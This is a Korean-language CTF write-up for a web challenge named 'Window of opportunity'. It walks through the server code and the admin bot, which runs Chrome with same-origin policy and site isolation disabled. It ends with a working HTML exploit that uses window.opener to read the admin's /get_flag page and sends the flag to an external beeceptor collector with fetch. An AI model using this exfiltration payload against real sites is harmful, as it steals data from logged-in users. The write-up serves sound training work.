





# Window_of_opportunity


## 문제 환경 구성


```docker
docker build .
docker run -it -p 17001:3000 <image_id>
```

## Description


```bash
The admin bot loves opening URLs. 
I implemented CSRF protection, but it seems as though I'm forgetting something. 
Can you find the issue?

Author: p._.k
```

### 초기 화면



## Background


- SOP

[SOP](https://www.notion.so/SOP-81455fdc627b47d896c2bada66be5ca0?pvs=21) 

- 크롬 보안 정책 설정
    - `--disable-web-security` : same-origin policy 비활성화
    - `--disable-site-isolation-trials` : 사이트 격리 해제
        - 사이트 격리란?
            - Chrome의 보안 기능 중 하나로, 서로 다른 출처(origin)의 콘텐츠를 서로 다른 프로세스에서 실행하도록 하여 보안을 강화 함. → 악성 웹사이트가 다른 탭의 데이터를 훔치는 것을 방지

## 코드분석


### 환경설정

```jsx
const express = require('express');
const path = require('path');
const cookieParser = require('cookie-parser');
const jwt = require('jsonwebtoken');
const puppeteer = require("puppeteer");
const cors = require('cors');
const crypto = require('crypto');
const rateLimit = require('express-rate-limit');
require('dotenv').config();

const app = express();
const HOST = "127.0.0.1";
const PORT = 3000;

const REMOTE_IP = "<자기 IP>"; // 본인 IP로 설정
const REMOTE_PORT = 17001

const FLAG = process.env.FLAG || "L3AK{t3mp_flag}";
const COOKIE_SECRET = process.env.COOKIE_SECRET || "1234";

const csrfTokens = new Map();

const limiter = rateLimit.rateLimit({
  windowMs: 5 * 60 * 1000,
  limit: 10,
  legacyHeaders: false
});

app.use(cookieParser());
app.use(cors({
  origin: ["http://127.0.0.1:3000", `http://${REMOTE_IP}:${REMOTE_PORT}`],
  credentials: true,
  methods: ['GET', 'POST'],
  allowedHeaders: ['Content-Type', 'Authorization', 'X-CSRF-Token']
}));
app.use('/visit_url', limiter);

app.use(express.urlencoded({ extended: true }));
app.use(express.json());
app.use(express.static(path.join(__dirname, 'public')));
```

### 함수: sleep(ms)

```jsx
async function sleep(ms) {
  return new Promise(resolve => setTimeout(resolve, ms));
}
```

### 함수: generateCSRFToken()

- 토큰 생성

```jsx
function generateCSRFToken() {
  const token = crypto.randomBytes(32).toString('hex');
  const timestamp = Date.now();
  csrfTokens.set(token, timestamp);

  const fiveMinutesAgo = timestamp - (5 * 60 * 1000);
  for (const [storedToken, storedTime] of csrfTokens.entries()) {
    if (storedTime < fiveMinutesAgo) { // 5분이 지난 토큰이 있으면 삭제
      csrfTokens.delete(storedToken);
    }
  }

  // So infra doesn't implode hopefully
  const MAX_TOKENS = 2000; // 저장된 토큰이 너무 많으면 초기화
  if (csrfTokens.size > MAX_TOKENS) {
    csrfTokens.clear();
  }

  return token;
}
```

### 함수: validateCSRFToken()

- CSRF 토큰 검증

```jsx
function validateCSRFToken(token) { 
  if (!token || !csrfTokens.has(token)) { // 토큰 여부 확인
    return false;
  }
  
  const timestamp = csrfTokens.get(token);
  const fiveMinutesAgo = Date.now() - (5 * 60 * 1000);
  
  if (timestamp < fiveMinutesAgo) { // 5분이 지난 토큰이면 토큰을 삭제하고 false 처리
    csrfTokens.delete(token);
    return false;
  }
  
  return true;
}
```

### 함수: csrfProtection()

```jsx
function csrfProtection(req, res, next) {
  const origin = req.headers.origin; 
  const allowedOrigins = [ // Requests from these origins are probably safe
    `http://${HOST}:${PORT}`,
    `http://${REMOTE_IP}:${REMOTE_PORT}`
  ] // CSRF 방지를 위해 Origin 설정
		// 얘는 서버단에서만 동작
  if (req.path === '/') {
    return next();
  }

  if (req.path === '/get_flag') {
    if(!req.headers.origin) {
      return next();
    }
  }
    
  if (!origin || !allowedOrigins.includes(origin)) {
    return res.status(403).json({ 
      error: 'Cross-origin request blocked',
      message: 'Origin not allowed'
    });
  }

  let csrfToken = null;
  
  csrfToken = req.headers['x-csrf-token'];
  
  if (!csrfToken && req.headers.authorization) {
    const authHeader = req.headers.authorization;
    if (authHeader.startsWith('Bearer ')) {
      csrfToken = authHeader.substring(7);
    }
  }
  
  if (!csrfToken && req.body && req.body.csrf_token) {
    csrfToken = req.body.csrf_token;
  }
  
  if (!csrfToken && req.query.csrf_token) {
    csrfToken = req.query.csrf_token;
  }
  
  if (!validateCSRFToken(csrfToken)) {
    return res.status(403).json({ 
      error: 'CSRF token validation failed',
      message: 'Invalid, missing, or expired CSRF token'
    });
  }
  
  csrfTokens.delete(csrfToken);
  next();
}
```

### 엔드포인트: /

```jsx
app.get('/', (req, res) => {
  const csrfToken = generateCSRFToken();
  
  res.cookie('csrf_token', csrfToken, {
    httpOnly: false,
    sameSite: 'Strict',
    secure: false,
    maxAge: 5 * 60 * 1000,
  });

  res.send(`
    <!DOCTYPE html>
    <!-- Doors...Windows...The flag is waiting --!>
    <html lang="en">
    <head>
      <meta charset="UTF-8" />
      <meta name="viewport" content="width=device-width, initial-scale=1.0" />
      <script src="https://cdn.tailwindcss.com"></script>
      <title>Window of Opportunity</title>
      <meta name="csrf-token" content="${csrfToken}">
    </head>
    <body class="min-h-screen flex items-center justify-center bg-cover bg-center" style="background-image: url('/bg.jpg');">
      <audio autoplay loop hidden>
        <source src="/music.mp3" type="audio/mpeg">
        Your browser does not support the audio element.
      </audio>
      <div class="bg-white/80 backdrop-blur-sm p-8 rounded-2xl shadow-xl w-full max-w-md text-center">
        <h1 class="text-3xl font-bold text-gray-800 mb-2">Window of Opportunity</h1>
        <p class="text-gray-600 mb-6 text-sm">A curious admin will open your door<br/>what secrets might it contain?</p>
        
        <form id="urlForm" class="space-y-4">
          <input 
            type="url" 
            name="url"
            id="urlInput"
            placeholder="https://l3ak.team" 
            class="w-full px-4 py-2 border border-gray-300 rounded-lg focus:outline-none focus:ring-2 focus:ring-blue-500" 
            required
          />
          <input type="hidden" name="csrf_token" id="csrfTokenField" value="${csrfToken}">
          <button 
            type="submit" 
            class="w-full bg-blue-600 text-white font-semibold py-2 px-4 rounded-lg hover:bg-blue-700 transition duration-200"
          >
            Submit
          </button>
        </form>
        <div id="response" class="mt-4 text-sm text-gray-700"></div>
      </div>

      <script>
        function getCookie(name) {
          const value = "; " + document.cookie;
          const parts = value.split("; " + name + "=");
          if (parts.length === 2) return parts.pop().split(";").shift();
        }

        function getCSRFToken() {
          const metaToken = document.querySelector('meta[name="csrf-token"]');
          if (metaToken) return metaToken.getAttribute('content');
          
          const cookieToken = getCookie('csrf_token');
          if (cookieToken) return cookieToken;
          
          const hiddenField = document.getElementById('csrfTokenField');
          if (hiddenField) return hiddenField.value;
          
          return null;
        }

        document.getElementById('urlForm').addEventListener('submit', async function(e) {
          e.preventDefault();

          const urlInput = document.getElementById('urlInput').value;
          const responseDiv = document.getElementById('response');
          const csrfToken = getCSRFToken();

          if (!csrfToken) {
            responseDiv.textContent = 'Error: CSRF token not found';
            return;
          }

          responseDiv.textContent = 'Submitting...';

          try {
            const headers = {
              'Content-Type': 'application/x-www-form-urlencoded',
              'X-CSRF-Token': csrfToken,
              'Authorization': 'Bearer ' + csrfToken
            };

            const body = new URLSearchParams({ 
              url: urlInput,
              csrf_token: csrfToken
            });

            const res = await fetch('/visit_url', {
              method: 'POST',
              headers: headers,
              body: body,
              credentials: 'include'
            });

            if (res.ok) {
              window.location.href = window.location.pathname + '?visited=true';
            } else {
              window.location.href = window.location.pathname + '?visited=false';
            }
          } catch (err) {
            responseDiv.textContent = 'Request failed: ' + err.message;
          }
        });
      </script>

      <script>
        const params = new URLSearchParams(window.location.search);
        const visited = params.get('visited');

        if (visited === 'true') {
          document.getElementById('response').textContent = '✅ Admin has visited your link.';
        } else if (visited === 'false') {
          document.getElementById('response').textContent = '❌ Admin could not visit your link.';
        }
    </script>
    </body>
    </html>
  `);
});

```

### 엔드포인트: /get_flag

- admin만 접근 가능

```bash
app.get('/get_flag', csrfProtection, (req, res) => {
  const token = req.cookies.token;

  if (!token) {
    return res.status(401).json({ error: 'Unauthorized: No token provided.' });
  }

  try {
    const decoded = jwt.verify(token, COOKIE_SECRET);
    if (decoded.admin === true) {
      return res.json({ flag: FLAG, message: 'You opened the right door!' });
    } else {
      return res.status(403).json({ error: 'Forbidden: You are not admin (-_-)' });
    }
  } catch (err) {
    return res.status(401).json({ error: 'Unauthorized: Invalid token.' });
  }
});
```

### 엔드포인트: /visit_url

- url 방문

```bash
app.post('/visit_url', csrfProtection, (req, res) => {
  const { url } = req.body;

  if (!url || typeof url !== 'string') {
    return res.status(400).json({ error: 'Bad Request: URL is required.' });
  }

  try {
    new URL(url);
    visit(url)
      .then(() => {
        return res.json({ message: 'URL visited successfully!', url: url });
      })
      .catch((e) => {
        return res.status(400).json({ error: 'Server Error: Failed to visit URL', details: e.message });
      })
  } catch (e) {
    return res.status(400).json({ error: 'Bad Request: Invalid URL format.' });
  }
});
```

### 엔드포인트:/csrf-token

```bash
app.get('/csrf-token', csrfProtection, (req, res) => {
  const token = generateCSRFToken(); // 토큰 생성
  res.cookie('csrf_token', token, {
    httpOnly: false,
    sameSite: 'Strict',
    secure: false,
    maxAge: 5 * 60 * 1000
  });
  res.json({ csrf_token: token });
});
```

### bot

```bash
let browser;

(async () => {
  const args = [
    "--disable-gpu", // GPU 가속 비활성화
    "--disable-dev-shm-usage", // /dev/shm 대신 디스크를 사용
    "--disable-setuid-sandbox", // setuid 샌드박스를 비활성화
    "--no-sandbox", // chrome의 샌드박스 보안 기능 비활성화
    "--no-zygote", // zygote 프로세스를 사용하지 않음.(프로세스 생성 방식 변경)
    "--disable-webgl", // WebGL 기능을 비활성화
    "--disable-accelerated-2d-canvas", // 2D 캔버스의 하드웨어 가속 끔
    "--disable-software-rasterizer", // GPU가 없을 때 사용하는 소프트웨어 렌더링 비활성화 
    "--disable-features=IsolateOrigins,site-per-process", // 사이트 격리 관련 기능 끔
    "--disable-web-security", // 동일 출처 정책 (CORS 등)을 비활성화 
    "--js-flags=--jitless --no-expose-wasm", // JIT 컴파일러와 WebAssembly 노출을 비활성화하여 성능을 낮추고 보안을 높임
    "--disable-extensions", // 확장 프로그램을 비활성화
    "--disable-popup-blocking", // 팝업 차단 기능을 끔
    "--disable-sync", // chrome 계정 동기화 기능을 끔
    "--disable-translate", // 자동 번역 기능을 끔
    "--disable-background-networking", // 백그라운드 네트워크 활동을 끔
    "--disable-background-timer-throttling", // 백그라운드 탭의 타이머 제한을 끔
    "--disable-client-side-phishing-detection", // 피싱 탐지 기능을 끔
    "--disable-default-apps", // 기본 탭을 로드하지 않음
    "--disable-hang-monitor", // 브라우저 멈춤 감지 기능을 끔
    "--disable-prompt-on-repost", // 폼 재전송 경고를 끔
    "--metrics-recording-only", // 매트릭 수집만 하고 전송은 하지 않음
    "--mute-audio", // 오디오 출력을 끔
    "--no-first-run", // 첫 실행 시 나오는 설정 마법사 생략
    "--safebrowsing-disable-auto-update", // 안전 브라우징 자동 업데이트를 끔
    "--disable-site-isolation-trials", // 사이트 격리 실험 기능을 비활성화
    "--incognito" // 시크릿 모드로 실행
  ];

  browser = await puppeteer.launch({ headless: true, args });
})();

async function visit(url) {
  console.log(url)
  const context = await browser.createBrowserContext();
  const page = await context.newPage();

  const token = jwt.sign({ admin: true }, COOKIE_SECRET);

  await page.setRequestInterception(true);
  await page.setCookie({
    name: "token",
    value: token,
    domain: REMOTE_IP,
    httpOnly: true,
    secure: false,
    sameSite: "Lax"
  });

  page.on('request', req => { // Some extra csrf measures yk
    if(req.resourceType() == 'script') { // js 차단
      req.abort();
    } else {
      req.continue();
    }
  })

  await page.goto(`http://${REMOTE_IP}:${REMOTE_PORT}/`, { waitUntil: "networkidle2" });

  await sleep(1000);

  await page.evaluate((targetUrl) => {
    window.open(targetUrl, "_blank"); // 외부 URL을 새로운 탭으로 열도록 유도
  }, url);

  await sleep(1000);

  await context.close();
}

app.listen(PORT, () => {
  console.log(`Server running at http://${HOST}:${PORT}`);
});

```

## 익스플로잇

---

### 취약점 분석

- `csrfProtection` 함수에서 SOP 정책을 정해놓으려 하지만, 봇에서 다른 브라우저를 접근할 때는 적용되지 않음.

### 익스플로잇 단계

### 1. exploit.html에 봇을 접근 시킴





### 2. beeceptor 확인



### 3. flag 값 url encoding



### 익스플로잇 코드

```bash
<!DOCTYPE html>
<html>
  <body>
    <script>
      // Redirect the original admin tab to /get_flag
      window.opener.location = "http://<문제 ip>:<port>/get_flag";

      // Wait for admin's tab to load, then steal the flag
      setTimeout(() => {
        try {
          const flagText = window.opener.document.body.innerText;

          fetch("https://hihello.free.beeceptor.com/?flag="+flagText);
        } catch (err) {
          console.error("Failed to read flag:", err);
        }
      }, 500); // 시간을 너무 짧게 두면 봇이 innerText를 못 읽고 넘어감. 사용자에 맞게 설정
    </script>
  </body>
</html>
```

## 핵심 정리 (본 문제에서 알아가야할 내용)

- [window.open](http://window.open) vs window.opener

https://blog.naver.com/mk1126sj/220986157391